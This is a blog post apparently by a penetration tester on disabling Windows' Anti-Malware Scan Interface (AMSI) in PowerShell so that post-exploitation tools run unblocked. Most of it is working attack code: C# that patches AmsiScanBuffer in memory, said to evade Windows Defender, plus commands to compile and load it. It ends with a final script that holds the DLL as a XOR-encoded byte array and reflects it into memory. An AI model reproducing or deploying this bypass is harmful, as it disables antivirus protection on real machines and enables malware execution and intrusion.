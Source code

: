 ```yaml
---
layout: post
title: "Execute any \"evil\" Powershell code by bypassing AMSI"
author: "Mor Davidovich @Dec0ne"
---
```

Powershell can be a powerful tool during the post-exploitation phase of our engagements. It packs a lot of native tools that can help us enumerate further beyond our initial foothold and onto the rest of the AD network. Probably, one of the best advantages of Powershell is having access to awesome public scripts and tools like Empire, PowerSploit, Nishang and many others, but what if AMSI will not let us use any of these tools?

## What is AMSI?
AMSI stands for "Anti Malware Scan Interface" and it's job is to scan and block anything malicious.
Still don't know what I'm talking about? Perhaps this will help:
<img src="/research/img/amsi-bypass-post/1.PNG?raw=true">
Obviously if you are experienced with pentesting in AD networks, you encountered this error with almost all public known scripts.

## How AMSI works exactly?
It uses a string based detection mechanism to detect “dangerous” commands and potentially malicious scripts.
Check out this example:
<img src="/research/img/amsi-bypass-post/2.PNG?raw=true">
As you can see the word "amsiutils" is prohibited so any Powershell scripts containing this word will be blocked by AMSI.

## So how can we bypass it?
Good thing you asked because I got some examples for you.
String based detection are very easy to bypass - just refrain from using the banned string literally.
Here are some ways to execute banned string without actually using it:
<img src="/research/img/amsi-bypass-post/3.PNG?raw=true">
By simply splitting the string you could fool AMSI and execute your banned string. This is a very common technique to use in obfuscation in general.
<img src="/research/img/amsi-bypass-post/4.PNG?raw=true">
You can also encode your string to base64 - in most cases that will be enough to fool AMSI.
If all else fails we can encode the string to bytes and even use XOR to make it even harder for AMSI but we will discuss that towards the end of the post.
The examples above are mere workarounds though, and to do this with every online public scripts we want to use is simply impractical.
So how can we __disable__ AMSI?

## Disabling AMSI
After scouring the web for a bit searching for a practical way to disable AMSI I stumbled onto [CyberArk post](https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/) in which he explains how he was able to disable AMSI using a memory patch to basically make AMSI execute all of its scans on a length of 0 (AKA not scanning anything). He provided a C# code that compiles into a DLL which we can load into Powershell and disable AMSI.
Unfortunately, CyberArk code's not longer valid. Apparently Windows Defender now blocks it so we can't even compile it, let alone load it into Powershell.
Upon further investigation and manipulation to the CyberArk code I managed to come up with this code that successfully evades Windows Defender:
```c#
using System;
using System.Runtime.InteropServices;

namespace BP
{
    public class AMS
    {
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("Kernel32.dll", EntryPoint = "RtlMoveMemory", SetLastError = false)]
        static extern void MoveMemory(IntPtr dest, IntPtr src, int size);


        public static void Disable()
        {
            IntPtr AMSDLL = LoadLibrary("amsi.dll");
            IntPtr AMSBPtr = GetProcAddress(AMSDLL, "Am" + "si" + "Scan" + "Buffer");
            UIntPtr dwSize = (UIntPtr)5;
            uint Zero = 0;
            VirtualProtect(AMSBPtr, dwSize, 0x40, out Zero);
            Byte[] Patch1 = { 0x31 };
            Byte[] Patch2 = { 0xff };
            Byte[] Patch3 = { 0x90 };
            IntPtr unmanagedPointer1 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch1, 0, unmanagedPointer1, 1);
            MoveMemory(AMSBPtr + 0x001b, unmanagedPointer1, 1);
            IntPtr unmanagedPointer2 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch2, 0, unmanagedPointer2, 1);
            MoveMemory(AMSBPtr + 0x001c, unmanagedPointer2, 1);
            IntPtr unmanagedPointer3 = Marshal.AllocHGlobal(1);
            Marshal.Copy(Patch3, 0, unmanagedPointer3, 1);
            MoveMemory(AMSBPtr + 0x001d, unmanagedPointer3, 1);
            Console.WriteLine("Memory patched successfuly.");
        }
    }
}
``` 
You can easily compile it into a DLL using Powershell:
```powershell
PS C:\Users\Mor> Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
```
To load it into Powershell we can use its native (.NET) API:
```powershell
PS C:\Users\Mor> [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
```
and to execute it, we simply call the now loaded function inside the DLL:
```powershell
PS C:\Users\Mor> [BP.AMS]::Disable()
```
This is how it looks in action:
<img src="/research/img/amsi-bypass-post/5.PNG?raw=true">
As you can see, we are now able to use the string "amsiutils" literally. We have successfully disabled AMSI. Right now we can load any external Powershell script like PowerSploit or Nishang without AMSI blocking it.

## Putting it all together
Once we have everything working we should try to automate everything we can because during engagements we might not have the time or the ability to do all of the steps above.
I decided to encode the entire DLL to base64 and create a script that will automatically reflect it to memory and execute it.
To encode the dll to base64 I used this command:
```powershell
PS C:\Users\Mor> $encoded_dll_string = [Convert]::ToBase64String([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
```
<img src="/research/img/amsi-bypass-post/6.PNG?raw=true">
The resulted string is the encoded DLL.

We can load it into memory like this:

```powershell
PS C:\Users\Mor> [Reflection.Assembly]::Load([Convert]::FromBase64String($encoded_dll_string)) | Out-Null
```
To my surprise, AMSI detected my encoded DLL string (or at least some part of it) as malicious and blocked it:
<img src="/research/img/amsi-bypass-post/7.PNG?raw=true">
I managed to bypass this by splitting the string somewhere in the middle (after some trial and error) but in my final script I decided to go with something a bit more "long-term": ByteString + XOR
Since AMSI only detects strings and not logic I needed a way to represent the DLL code with a string that I could easily change whenever AMSI decides to ban it.

What I did is the following:
I loaded the DLL bytes in Powershell, ran the byte array through a XOR function and finally converted it to a ByteString.
```powershell
PS C:\Users\Mor> $byteArray = [IO.File]::ReadAllBytes("$pwd\\Source.dll")
PS C:\Users\Mor> $keyArray = @(12, 85, 65)
PS C:\Users\Mor> $keyPosition = 0
PS C:\Users\Mor> for($i=0; $i -lt $byteArray.count ; $i++)
				 {
					 $byteArray[$i] = $byteArray[$i] -bxor $KeyArray[$keyposition]
				 	 $keyposition += 1
				 	 if ($keyposition -eq $keyArray.Length) {$keyposition = 0}
				 }
PS C:\Users\Mor> $byteString = ($byteArray | ForEach-Object ToString) -join ','
```
The only thing left to do is to copy the encoded ByteString into the final Powershell script and host it online for me to use whenever I need it. 
If for some reason AMSI will ever decide to block my encoded ByteString all I need to do is change the XOR key and copy the new encoded ByteString to the Powershell script and I'm good to go.

The final Powershell script:
```powershell
function AMSBP
{
	if (-not ([System.Management.Automation.PSTypeName]"BP.AMS").Type) {
		$byteArray = @(65,15,209,12,86,65,12,85,69,12,85,65,243,170,65,12,237,65,12,85,65,12,85,65,76,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,140,85,65,12,91,94,182,91,65,184,92,140,45,237,64,64,152,96,88,61,40,127,117,49,126,58,38,126,52,44,44,54,32,98,59,46,120,117,35,105,117,51,121,59,97,101,59,97,72,26,18,44,56,46,104,48,111,1,88,75,40,85,65,12,85,65,12,85,17,73,85,65,64,84,66,12,29,246,200,8,65,12,85,65,12,85,65,12,181,65,14,116,74,13,94,65,12,93,65,12,85,71,12,85,65,12,85,65,194,115,65,12,85,97,12,85,65,76,85,65,12,85,65,28,85,97,12,85,65,14,85,65,8,85,65,12,85,65,12,85,69,12,85,65,12,85,65,12,85,193,12,85,65,14,85,65,12,85,65,12,86,65,76,208,65,12,69,65,12,69,65,12,85,65,28,85,65,28,85,65,12,85,65,12,69,65,12,85,65,12,85,65,12,85,65,12,45,103,12,85,18,12,85,65,12,21,65,12,245,67,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,53,65,12,89,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,44,85,65,4,85,65,12,85,65,12,85,65,12,85,65,4,117,65,12,29,65,12,85,65,12,85,65,12,85,65,12,123,53,105,45,53,12,85,65,216,83,65,12,85,97,12,85,65,4,85,65,12,87,65,12,85,65,12,85,65,12,85,65,12,85,65,12,117,65,12,53,111,126,38,51,111,85,65,12,245,67,12,85,65,76,85,65,12,81,65,12,85,75,12,85,65,12,85,65,12,85,65,12,85,65,12,85,1,12,85,1,34,39,36,96,58,34,12,85,77,12,85,65,12,53,65,12,85,67,12,85,65,2,85,65,12,85,65,12,85,65,12,85,65,12,85,65,76,85,65,78,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,241,42,85,65,12,85,65,12,29,65,12,85,67,12,80,65,76,116,65,12,109,68,12,85,64,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,70,113,8,85,157,12,85,65,13,85,65,29,39,64,12,85,49,36,87,65,12,83,75,10,39,82,12,85,49,36,84,65,12,83,74,23,125,68,12,85,75,0,67,76,11,93,94,76,71,66,36,86,65,12,83,103,27,216,70,12,85,64,31,95,80,6,67,94,61,201,80,6,70,69,27,216,70,12,85,64,31,94,80,7,67,97,243,85,65,12,201,80,7,70,68,27,216,70,12,85,64,31,89,80,0,67,97,156,85,65,12,201,80,0,70,71,27,125,71,12,85,75,31,82,80,8,67,80,11,66,105,11,85,65,6,82,94,23,125,73,12,85,75,29,82,86,36,81,65,12,83,86,36,83,65,12,95,82,4,68,68,26,68,73,27,125,70,12,85,75,11,74,93,36,93,65,12,95,80,4,66,105,8,85,65,10,66,105,10,85,65,6,70,72,29,83,87,29,92,86,36,82,65,12,95,70,19,72,105,4,85,65,6,68,72,27,125,69,12,85,71,126,100,65,12,37,105,5,85,65,6,127,95,14,125,75,12,85,75,38,23,18,70,23,64,12,84,65,12,85,65,12,89,65,12,85,55,56,123,113,34,102,113,63,100,120,12,85,65,12,80,65,96,85,65,12,129,64,12,85,98,114,85,65,76,87,65,12,189,64,12,85,98,95,33,51,101,59,38,127,85,65,12,85,105,8,85,65,96,85,65,12,118,20,95,85,213,8,85,65,28,85,65,12,118,6,89,28,5,12,85,65,168,81,65,12,193,65,12,85,98,78,57,46,110,85,65,12,85,65,12,85,67,12,85,64,75,64,67,24,92,65,12,85,65,246,112,114,12,67,65,12,84,65,12,85,75,12,85,65,14,85,65,12,83,65,12,85,75,12,85,65,6,85,65,12,87,65,12,85,64,12,85,65,14,85,65,12,81,65,12,85,64,12,85,65,13,85,65,12,85,65,6,85,64,12,85,65,12,85,71,12,121,65,41,85,71,12,141,65,181,85,71,12,70,64,255,85,71,12,102,64,255,85,71,12,13,64,181,85,71,12,218,64,41,85,71,12,246,64,41,85,71,12,253,64,181,85,71,12,151,64,41,85,71,12,128,64,41,85,65,12,85,65,13,85,65,12,85,65,13,85,64,12,84,65,28,85,84,12,76,65,9,85,64,12,84,65,12,85,65,12,213,65,154,117,114,12,95,65,13,85,65,12,85,65,140,85,215,44,23,65,28,85,66,12,85,65,12,85,193,12,195,97,66,85,84,12,81,65,12,85,65,12,213,65,157,117,28,12,75,65,4,85,17,44,85,65,12,85,215,12,61,65,41,85,74,12,109,96,12,85,65,12,211,89,124,85,104,12,94,65,12,85,64,12,35,65,12,85,67,12,43,65,12,85,64,12,210,65,12,85,64,12,217,65,12,85,67,12,195,65,12,85,66,12,200,65,14,85,69,12,255,65,12,85,64,12,176,65,12,85,67,12,191,65,12,85,66,12,187,65,29,85,49,12,124,65,21,85,49,12,120,65,45,85,49,12,124,65,37,85,49,12,103,65,61,85,214,13,98,65,77,85,241,13,105,65,77,85,252,13,20,65,69,85,136,13,31,65,93,85,156,13,5,65,5,85,49,12,124,65,34,85,82,12,62,65,34,85,90,12,33,65,89,85,42,13,33,64,12,84,66,12,102,65,13,85,65,13,80,65,78,85,64,12,85,64,11,85,15,12,84,65,12,84,72,12,212,64,14,85,69,140,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,16,13,85,65,8,85,65,12,85,65,12,85,65,12,85,65,13,85,93,12,85,65,12,85,65,12,85,125,65,58,37,121,57,36,50,85,18,99,32,51,111,48,111,104,57,45,12,20,12,95,85,3,92,85,44,127,54,46,126,57,40,110,85,18,117,38,53,105,56,65,67,55,43,105,54,53,12,18,36,120,5,51,99,54,0,104,49,51,105,38,50,12,25,46,109,49,13,101,55,51,109,39,56,12,3,40,126,33,52,109,57,17,126,58,53,105,54,53,12,24,46,122,48,12,105,56,46,126,44,65,72,60,50,109,55,45,105,85,111,111,33,46,126,85,41,65,58,37,121,57,36,12,37,51,99,54,15,109,56,36,12,59,32,97,48,65,96,37,0,104,49,51,105,38,50,12,49,54,95,60,59,105,85,39,96,27,36,123,5,51,99,33,36,111,33,65,96,37,39,96,26,45,104,5,51,99,33,36,111,33,65,95,44,50,120,48,44,34,7,52,98,33,40,97,48,111,69,59,53,105,39,46,124,6,36,126,35,40,111,48,50,12,26,52,120,20,53,120,39,40,110,32,53,105,85,37,105,38,53,12,38,51,111,85,50,101,47,36,12,6,56,127,33,36,97,123,19,121,59,53,101,56,36,34,22,46,97,37,40,96,48,51,95,48,51,122,60,34,105,38,65,79,58,44,124,60,45,109,33,40,99,59,19,105,57,32,116,52,53,101,58,47,127,20,53,120,39,40,110,32,53,105,85,19,121,59,53,101,56,36,79,58,44,124,52,53,101,55,40,96,60,53,117,20,53,120,39,40,110,32,53,105,85,18,99,32,51,111,48,65,72,57,45,69,56,49,99,39,53,77,33,53,126,60,35,121,33,36,12,62,36,126,59,36,96,102,115,12,30,36,126,59,36,96,102,115,34,49,45,96,85,19,120,57,12,99,35,36,65,48,44,99,39,56,12,0,8,98,33,17,120,39,65,99,37,30,73,45,49,96,60,34,101,33,65,78,44,53,105,85,12,109,39,50,100,52,45,12,20,45,96,58,34,68,18,45,99,55,32,96,85,2,99,37,56,12,28,47,120,5,53,126,85,46,124,10,0,104,49,40,120,60,46,98,85,2,99,59,50,99,57,36,12,2,51,101,33,36,64,60,47,105,85,65,12,68,32,12,56,65,127,85,40,12,123,65,104,85,45,12,57,65,12,72,0,12,56,65,127,85,40,12,6,65,111,85,32,12,59,65,78,85,52,12,51,65,106,85,36,12,39,65,12,98,12,12,48,65,97,85,46,12,39,65,117,85,97,12,37,65,109,85,53,12,54,65,100,85,36,12,49,65,44,85,50,12,32,65,111,85,34,12,48,65,127,85,50,12,51,65,121,85,45,12,44,65,34,85,65,12,85,65,246,138,25,159,14,129,98,22,249,32,70,187,62,94,163,211,85,73,187,47,29,90,76,117,236,220,68,12,87,89,20,91,69,12,84,89,2,93,65,8,87,89,21,92,81,5,83,65,15,84,89,20,93,66,12,85,64,15,117,65,13,81,97,13,84,73,8,117,64,13,91,69,12,84,88,5,81,65,13,77,73,4,85,69,13,72,68,4,77,73,9,85,67,20,77,73,8,85,64,13,91,84,11,88,89,20,76,72,17,80,92,9,72,68,20,77,89,17,80,92,9,72,68,4,84,65,4,85,65,12,85,65,18,84,65,13,85,21,14,67,22,126,52,49,66,58,47,73,45,34,105,37,53,101,58,47,88,61,51,99,34,50,13,85,225,42,85,65,12,85,65,12,85,65,12,85,255,42,85,65,12,117,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,188,115,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,83,22,46,126,17,45,96,24,32,101,59,65,97,38,34,99,39,36,105,123,37,96,57,65,12,85,65,12,170,100,12,117,65,28,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,13,85,81,12,85,65,20,85,65,140,85,65,12,85,65,12,85,65,12,85,65,12,85,65,13,85,64,12,85,65,60,85,65,140,85,65,12,85,65,12,85,65,12,85,65,12,85,65,13,85,65,12,85,65,68,85,65,12,13,1,12,85,5,14,85,65,12,85,65,12,85,65,12,85,5,14,97,65,12,85,23,12,6,65,83,85,23,12,16,65,94,85,18,12,28,65,67,85,15,12,10,65,69,85,15,12,19,65,67,85,65,12,85,65,177,81,174,242,85,65,13,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,51,85,65,12,85,65,12,85,69,12,85,65,14,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,17,65,12,85,64,12,3,65,109,85,51,12,19,65,101,85,45,12,48,65,69,85,47,12,51,65,99,85,65,12,85,65,40,85,69,12,85,65,88,85,51,12,52,65,98,85,50,12,57,65,109,85,53,12,60,65,99,85,47,12,85,65,12,85,65,12,229,69,168,84,65,12,84,65,95,85,53,12,39,65,101,85,47,12,50,65,74,85,40,12,57,65,105,85,8,12,59,65,106,85,46,12,85,65,140,84,65,12,84,65,60,85,113,12,101,65,60,85,113,12,97,65,110,85,113,12,85,65,32,85,67,12,84,65,74,85,40,12,57,65,105,85,5,12,48,65,127,85,34,12,39,65,101,85,49,12,33,65,101,85,46,12,59,65,12,85,65,12,117,65,12,85,113,12,93,65,13,85,7,12,60,65,96,85,36,12,3,65,105,85,51,12,38,65,101,85,46,12,59,65,12,85,65,12,101,65,34,85,113,12,123,65,60,85,111,12,101,65,12,85,121,12,94,65,13,85,8,12,59,65,120,85,36,12,39,65,98,85,32,12,57,65,66,85,32,12,56,65,105,85,65,12,6,65,99,85,52,12,39,65,111,85,36,12,123,65,104,85,45,12,57,65,12,85,65,12,125,65,14,85,64,12,25,65,105,85,38,12,52,65,96,85,2,12,58,65,124,85,56,12,39,65,101,85,38,12,61,65,120,85,65,12,117,65,12,85,1,12,94,65,13,85,14,12,39,65,101,85,38,12,60,65,98,85,32,12,57,65,74,85,40,12,57,65,105,85,47,12,52,65,97,85,36,12,85,65,95,85,46,12,32,65,126,85,34,12,48,65,34,85,37,12,57,65,96,85,65,12,85,65,56,85,73,12,84,65,92,85,51,12,58,65,104,85,52,12,54,65,120,85,23,12,48,65,126,85,50,12,60,65,99,85,47,12,85,65,60,85,111,12,101,65,34,85,113,12,123,65,60,85,65,12,109,65,4,85,64,12,20,65,127,85,50,12,48,65,97,85,35,12,57,65,117,85,97,12,3,65,105,85,51,12,38,65,101,85,46,12,59,65,12,85,113,12,123,65,60,85,111,12,101,65,34,85,113,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,44,85,65,0,85,65,12,133,119,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12,85,65,12)
		$KeyArray = @(12, 85, 65)
		$keyposition = 0
		for ($i = 0; $i -lt $byteArray.count; $i++)
		{
			$byteArray[$i] = $byteArray[$i] -bxor $KeyArray[$keyposition]
			$keyposition += 1
			if ($keyposition -eq $keyArray.Length) { $keyposition = 0 }
		}
		[Reflection.Assembly]::Load([byte[]]$byteArray) | Out-Null
		Write-Output "DLL has been reflected"
	}
	[BP.AMS]::Disable()
}
```

Here is the final [hosted script](https://raw.githubusercontent.com/Dec0ne/AMS-BP/master/AMSBP.ps1) in action:
<img src="/research/img/amsi-bypass-post/8.PNG?raw=true">

As you can see this technique is pretty simple to use and very useful when you wish to load some Powershell post-exploitation scripts that were once blocked by AMSI.

I hope you like this post like I enjoyed working on it. Hope you learned something new.
Thanks for CyberArk for sharing this technique.

Best regards,
Dec0ne

